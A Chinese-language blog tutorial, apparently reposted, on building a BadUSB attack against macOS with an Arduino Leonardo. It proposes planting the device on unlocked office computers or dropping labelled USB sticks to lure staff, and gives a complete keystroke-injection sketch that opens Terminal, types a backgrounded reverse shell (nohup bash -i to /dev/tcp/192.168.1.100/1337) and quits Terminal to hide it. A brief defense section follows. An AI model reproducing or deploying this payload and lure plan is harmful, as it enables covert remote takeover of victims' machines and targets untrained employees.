

Badusb 攻击之MacOSX系统实战
Badusb 已经出现了很多年，使用usb进行攻击的手段也从最初的利用autorun.inf、伪造文件夹名、快捷方式等手段转为更加难以防御的Badusb。这种攻击方式就是目前可绕过杀毒软件，防御较难。
利用场景
说下本文中利用场景：
混入企业内部，员工电脑未锁屏的情况下。在之前去过很多客户那里，大多数企业的员工离开电脑前不锁屏的情况,而且非常严重。
对于无安全意识的员工进行攻击，如公司文员、前台、行政等，例如将usb贴上保密、照片等字样，并扔到显眼位置，以吸引人来捡并插入其电脑。
针对Badusb攻击手段还有很多，利用场景也还有，这里仅列出与本文有关的部分。下面就让我们正式开始进入制作。
准备工作
硬件
Arduino Leonardo 淘宝上直接搜索Badusb，有很多卖的，价格都比较便宜。
软件
Arduino IDE 官网下载地址：https://www.arduino.cc/en/Main/Software
免杀木马，我这里macos下直接用的反弹shell，windows下使用的是免杀的meterpreter，payload为reverse_tcp。由于免杀不是本文重点，请自行制作。
基础知识
Badusb属于HID注入攻击的一种形式。HID是Human Interface Device的缩写，HID设备是直接与人交互的设备，例如键盘、鼠标与游戏杆等。不过HID设备并不一定要有人机接口，只要符合HID类别规范的设备都是HID设备。今天使用的Arduino Leonardo板子主要是一款键盘注入工具，除此之外还有WIFI版的（通过链接wifi，然后发起攻击）、伪装为充电线的（USB-C）。目前，前者成本较低，后者成本较高。有国外安全研究人员有在售卖USB Cable。有一些手机也支持用来进行hid注入攻击。比如GOOGLE NEXUS手机，刷入kali nethunter系统即可，在淘宝上可以购买到二手手机，成本只要300左右。
安装好arduino ide后，插入Arduino Leonardo板子，打开arduino ide，选择【工具】-【开发版】-【Arduino Leonardo】。
接下来就开始编写攻击代码了。默认显示的代码如下：
void setup() {
// put your setup code here, to run once:
}
void loop() {
// put your main code here, to run repeatedly:
}
setup函数主要是安装时运行的代码，loop函数为重复执行的代码。一般我们都写入到setup函数中。
代码的语法并不多，主要有：
#include <Keyboard.h> 这里是包含Keyboard.h文件，该文件里定义了一些按键常量。
Keyboard.begin(); 开始键盘通讯delay(100); 延迟执行，单位是毫秒Keyboard.press() 按下某个按键Keyboard.release() 松开某个按键Keyboard.end(); 结束键盘通讯
这里需要注意的是，不同的板子语法会有不同和差异。
ascii对应键值表：

（图片来源：https://zhuanlan.zhihu.com/p/28194271）
实战攻击
好了，有了如上基础，我们可以来实战攻击了。网上的代码总有一些问题，导致实际的成功率并不高。所以我对其进行了加强。
执行流程：
打开
聚焦搜索搜索终端
terminal打开终端
执行
bash执行反弹shell代码
切换输入法
再次执行反弹shell代码
退出终端。
采用如上的流程，主要考虑到如下了几种情况来，从而提高其代码执行的成功率。
mac系统是类unix系统，区分大小写。
不同的mac版本系统，以及使用者设置的习惯不同
如何让反弹shell代码在后台执行，并隐藏终端窗口。
具体的实现可看代码
代码地址已经上传到github，地址：
https://github.com/insightglacier/badusb_script
脚本代码：
#include <Keyboard.h>
void setup() {
Keyboard.begin();//开始键盘通讯
delay(3000);
Keyboard.press(KEY_LEFT_GUI);
delay(30);
Keyboard.press(32);//按住空格，也就是command + 空格
Keyboard.release(KEY_LEFT_GUI);
Keyboard.release(32);
delay(100);
Keyboard.println("terminal"); //打开终端
delay(2000);
Keyboard.press(KEY_RETURN);
delay(100);
Keyboard.release(KEY_RETURN);
delay(500);
Keyboard.println("bash"); //打开bash
delay(100);
Keyboard.press(KEY_RETURN);
delay(100);
Keyboard.release(KEY_RETURN);
delay(100);//
Keyboard.println("nohup bash -i >& /dev/tcp/192.168.1.100/1337 0>&1 &");// 利用nohup在后台执行反弹shell代码
delay(100);
Keyboard.press(KEY_RETURN);//
delay(100);
Keyboard.release(KEY_RETURN);
delay(100);
Keyboard.press(32);
delay(100);
Keyboard.release(KEY_CAPS_LOCK); //切换输入法。
delay(100);
delay(100);
Keyboard.press(KEY_LEFT_CTRL); //另外一种切输入法操作
delay(100);
Keyboard.press(32);
Keyboard.release(KEY_LEFT_CTRL);
delay(100);
Keyboard.release(32);
delay(100);
Keyboard.println("nohup bash -i >& /dev/tcp/192.168.1.100/1337 0>&1 &");// 利用nohup在后台执行反弹shell代码
delay(100);
Keyboard.press(KEY_RETURN);
delay(100);
Keyboard.release(KEY_RETURN);
Keyboard.press(KEY_LEFT_GUI);
delay(100);
Keyboard.press('q');//按下Q键
delay(100);
Keyboard.release('q');// 放开Q键
Keyboard.release(KEY_LEFT_GUI);//Command+Q退出终端
delay(1000);
Keyboard.press(KEY_RETURN);
delay(100);
Keyboard.release(KEY_RETURN);
Keyboard.end();//结束键盘通讯
}
void loop() {
}
代码注释写的很清楚来，也不难。写完代码后，我们可以点击验证（左上角对号）验证代码是否有语法错误。点击上传，ide会自动编译并上传代码到开发板中。成功后会直接执行我们的代码。测试在本机执行后，就可以到其机器上运行了。
Badusb防御
Google 开源的badusb防御产品ukip，地址：https://github.com/google/ukip 。原理主要是监测按键键入的时间，并且自动判断是否为恶意攻击。
在测试过程中，windows10 系统会识别一些恶意的usb固件。建议开启windows defender。当然这种也并不保险。
对来历不明的usb设备，请慎重插入到电脑上（建议不插到电脑上）。
当然网络上也有设置组策略的方式进行阻止，以及禁用usb口来防御。这里具体看企业自身情况进行设置。具体配置方法自行搜索吧。
总结
Badusb的优点是杀毒软件无法查杀和拦截，但是其缺点也很明显，就是键盘输入的过程会在界面上有短暂的显示。每种攻击手法并不是万能的，只是一种手段，根据攻击场景不同，选择合适的攻击手段最终达到完美的攻击，这是我们所需要追求的。
参考链接
https://zhuanlan.zhihu.com/p/28194271
https://baike.baidu.com/item/USB-HID/3074554

推荐阅读
点赞，转发，在看
来源：Baced's Blog
如有侵权，请联系删除